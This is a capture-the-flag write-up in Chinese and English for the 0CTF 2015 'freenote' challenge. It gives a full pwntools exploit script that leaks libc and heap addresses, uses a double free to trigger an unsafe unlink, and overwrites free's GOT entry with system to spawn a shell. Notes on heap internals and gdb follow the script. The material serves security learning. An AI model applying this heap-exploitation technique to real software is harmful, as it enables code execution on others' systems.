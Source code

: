 ```python
    #!/usr/bin/env python
    from pwn import *

    context(arch = 'x86_64', os = 'linux', endian='little')
    context.log_level = 'debug'
    #elf = ELF('./freenote_x64')
    p = process('./freenote_x64')
    #p = remote('127.0.0.1',10001)
    print proc.pidof(p)
    raw_input('gdb attach')

    def new_note(x):
        p.recvuntil("Your choice: ")
        p.send("2\n")
        p.recvuntil("Length of new note: ")
        p.send(str(len(x))+"\n")
        p.recvuntil("Enter your note: ")
        p.send(x)

    def delete_note(x):
        p.recvuntil("Your choice: ")
        p.send("4\n")
        p.recvuntil("Note number: ")
        p.send(str(x)+"\n")

    def list_note():
        p.recvuntil("Your choice: ")
        p.send("1\n")

    def edit_note(x,y):
        p.recvuntil("Your choice: ")
        p.send("3\n")   
        p.recvuntil("Note number: ")
        p.send(str(x)+"\n")   
        p.recvuntil("Length of note: ")
        p.send(str(len(y))+"\n")   
        p.recvuntil("Enter your note: ")
        p.send(y)

    ####################leak libc#########################

    if __name__ == '__main__':
        notelen = 0x80
        new_note('a' * notelen)
        new_note('b' * notelen)
        delete_note(0)
        new_note('cccccccc')
        list_note()
        p.recvuntil('0. ')
        leak = p.recvuntil('\n')
        #log.info('heap:' + str(u64(leak[8:-1])))
        print leak[0:-1].encode('hex')

        delete_note(1)
        delete_note(0)

        #libc_base = leaklibcaddr - offset          (此处偏移依据libc版本不同，基址页对齐4K,也就是地址后三位为000，如：0x7fabba34b000)
        #进而再算出system, "/bin/sh" 偏移  或者将"/bin/sh\x00" 写入到heap or bss
        system_sh_addr = leaklibcaddr - 0x3724a8   
        print "system_sh_addr: " + hex(system_sh_addr)
        binsh_addr = leaklibcaddr - 0x23e7f1
        print "binsh_addr: " + hex(binsh_addr)

        #raw_input()

        ####################leak heap#########################

        notelen=0x10

        new_note("A"*notelen)
        new_note("B"*notelen)
        new_note("C"*notelen)
        new_note("D"*notelen)
        delete_note(2)
        delete_note(0)

        new_note("AAAAAAAA")
        list_note()
        p.recvuntil("0. AAAAAAAA")
        leak = p.recvuntil("\n")

        print leak[0:-1].encode('hex')
        leakheapaddr = u64(leak[0:-1].ljust(8, '\x00'))
        print hex(leakheapaddr)

        delete_note(0)
        delete_note(1)
        delete_note(3)

        ####################unlink exp#########################

        notelen = 0x80

        #new_note("/bin/sh\x00"+"A"*(notelen-8))
        new_note("A"*notelen)
        new_note("B"*notelen)
        new_note("C"*notelen)

        delete_note(2)
        delete_note(1)
        delete_note(0)

        fd = leakheapaddr - 0x1808 #notetable
        bk = fd + 0x8


        payload  = ""
        payload += p64(0x0) + p64(notelen+1) + p64(fd) + p64(bk) + "A" * (notelen - 0x20)
        payload += p64(notelen) + p64(notelen+0x10) + "A" * notelen
        payload += p64(0) + p64(notelen+0x11)+ "\x00" * (notelen-0x20)

        new_note(payload)

        delete_note(1)

        free_got = 0x602018

        payload2 = p64(notelen) + p64(1) + p64(0x8) + p64(free_got) + "A"*16 + p64(binsh_addr)
        payload2 += "A"* (notelen*3-len(payload2)) 

        edit_note(0, payload2)
        edit_note(0, p64(system_sh_addr))

        delete_note(1)

        p.interactive()
```

泄露libc基址的方法:
运行脚本程序  python -m pdb myexp.py   (过程中会打印出进程号xxx)

gdb attach  xxx
vmmap 查看内存分布
p main_arena
p main_arena.bins[0]
p &main_arena.bins[0]

通过泄露unsort_bin 地址，我们来计算libc函数基址以及system 函数地址

leaking a heap address is fairly simple though:
1.Allocate 4 chunks.
2.Free chunk 3 and chunk 1 (in that order, so that malloc writes the two pointers into chunk 1).
3.Allocate another chunk of size 1 (or 8). This chunk will be placed where chunk 1 used to be and 
  where its FD and BK pointers still are, with the BK pointer pointing to chunk 3.
4.Print the notes, since this is a %s print, we can leak the FD (or BK if chosen size in step 3 was 8)
  pointer of chunk 1 which in our case points to chunk 3 (heap memory)!
This same technique can be used to leak a libc address (the head of the freelist is in the .bss of the libc). 
Simply follow the same steps, but now it suffices to allocate chunks 1 and 2 and free the first.

我们通过新建两个note,然后free(0),再new_note("aaaaaaaa"),在new_note时unsorted_bin 双向链表中只有free的note0,当再次申请堆内存时，就会重新获取
trunk0, "aaaaaaaa"就会覆盖trunk0的fd，list_note()就会泄露trunk0的bk，而bk指向的是main_arena中的unsort_bin 首地址(就是p &main_arena.bins[0]
地址减去0x10)， 可以算出libc_base的地址，从而确定libc中函数的地址。 
1. unsorted_bin 双向链表采用的是头部插入的方式，header(unsorted_bin) fd 指向最新插入元素的地址，并且采用FIFO的方式，那么泄露的第一个插入进
   unsorted_bin的trunk的fd，fd就是unsorted_bin的首地址，从而可以算出libc_base. 如果泄露bk，bk就是第二个插入到unsorted_bin的首地址，利用此方法
   可以泄露出heap的地址，进而计算出heap_base
2. 如何我们要unlink的trunk的首地址指针为P，那么我们需要找到一个指针X(满足条件*X = P), 我们需要在note table(形式结构体如下：)
  Struct note{
    int flag;
    int length;
    char* content;
  }note;
 fd = X - 0x18
 bk = X - 0x10
以64bit为例,假设找到了一个已知地址的ptr是指向p(p指向堆上的某个地方)的，通过堆溢出，我们可以做如下的修改。

#!c
p->fd=ptr-0x18
p->bk=ptr-0x10
布置好如此结构后，再触发unlink宏，会发生如下情况。
#!c
1.FD=p->fd(实际是ptr-0x18)
2.BK=p->bk(实际是ptr-0x10)
3.检查是否满足上文所示的限制，由于FD->bk和BK->fd均为*ptr(即p)，由此可以过掉这个限制
4.FD->bk=BK
5.BK->fd=FD(p=ptr-0x18)
  
 执行unlink后, P -> X - 0x18 （P的值变成X - 0x18） X指向的地址做任意写操作,就能通过再次覆盖修改X的值,继而使X指向我们想修改的任意空间,
从而实现对任意地址的任意修改.


前向合并:
如果检查当前块P的pre_inuse位为0,就把前一块P0从freelist中取出来,这个过程会对P0执行unlink操作.

后向合并(后一块P1非TOPchunk):
通过 块P地址+size 获取块P的后一块P1,再通过P1的后一块P2的pre_inuse位来判断块P1的状态,如果是0,代表P1是free的,对P执行unlink操作
最后,把前面free出来的合并块(A+B)放到unsorted chunk里,如果P1是TOPchunk,就直接合并到TOPchunk.


在执行该语句：edit_note(0, payload2)， 程序会调用realloc函数（void * realloc ( void * ptr, size_t new_size );），因为传入的地址为X - 0x18, 根据realloc行为，我们希望修改X-0x18地址处的数据，
那么必须使realloc函数执行后，返回的ptr指针不变，此时令realloc前后的长度保持一致，即newsize = oldsize。因此在该题中会覆盖X-0x18的内容。
realloc的行为方式，结合源码总结为：
1. realloc失败的时候，返回NULL；
2. realloc失败的时候，原来的内存不改变，也就是不free或不move，(这个地方很容易出错)；
3. 假如原来的内存后面还有足够多剩余内存的话，realloc的内存=原来的内存+剩余内存,realloc还是返回原来内存的地址; 
   假如原来的内存后面没有足够多剩余内存的话，realloc将申请新的内存，然后把原来的内存数据拷贝到新内存里，原来的内存将被free掉,
   realloc返回新内存的地址；
4. 如果size为0，效果等同于free()；
5. 传递给realloc的指针可以为空，等同于malloc；
6. 传递给realloc的指针必须是先前通过malloc(), calloc(), 或realloc()分配的。


通过泄露的libc地址我们可以计算出 system() 函数和 "/bin/sh" 字符串在内存中的地址，通过泄露的堆的地址我们能得到note table的地址。
然后我们构造一个假的note，利用使用double free的漏洞触发unlink，将note0的位置指向note table的地址。随后我们就可以通过编辑note0
来编辑note table了。通过编辑note table我们把note0指向 free() 函数在got表中的地址，把note1指向 "/bin/sh" 在内存中的地址。
然后我们编辑note0把 free() 函数在got表中的地址改为 system() 的地址。最后我们执行delete note1操作。因为我们把note1的地址指向
了 "/bin/sh" ，所以正常情况下程序会执行 free("/bin/sh") ，但别忘了我们修改了got表中free的地址，所以程序会执行 system("/bin/sh")。

  参考：
  https://kitctf.de/writeups/0ctf2015/freenote
  http://rk700.github.io/2015/04/21/0ctf-freenote/
  http://www.tuicool.com/articles/IfYZri3
  http://winesap.logdown.com/posts/258859-0ctf-2015-freenode-write-up
